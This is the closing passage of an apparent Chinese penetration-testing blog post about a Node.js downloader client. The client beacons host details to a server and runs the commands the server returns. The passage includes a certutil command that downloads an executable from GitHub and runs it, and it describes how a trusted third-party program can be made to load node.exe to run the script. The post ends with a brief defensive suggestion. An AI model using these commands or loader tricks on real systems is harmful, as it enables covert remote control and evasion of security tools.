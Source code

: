 ```
node.exe Client.js
```

Client将会连接Server，发送固定格式的post数据，包括当前系统的主机名和操作系统版本

接下来接收Server返回的控制命令，执行后将结果再次发送到Server

如果Server未响应，等待一段时间后再次发送post请求

## 0x05 利用思路
---

#### 1、开源的代码支持多种payload

可将payload设置为下载文件并执行，例如

```
var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';
```

更多下载执行的命令可参考之前的文章[《渗透技巧——从github下载文件的多种方法》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95/)

**注：**

发送Client退出的命令可使用：

```
var command = 'taskkill /f /im node.exe';
```

#### 2、可被第三方可信程序加载

参考：

https://bbs.pediy.com/thread-249573.htm

`t.exe`->`node.exe`->`main.js`

演示如图：

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

## 0x06 防御建议
---

对t.exe的子进程(node.exe)行为进行判断，如果有可疑行为进行拦截

## 0x07 小结
---

本文介绍了在开发Node.js代码时需要注意的细节，开源了一段Downloader的测试代码，用来演示Node.js的功能。

简要分析在渗透测试中的利用思路，给出防御建议。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



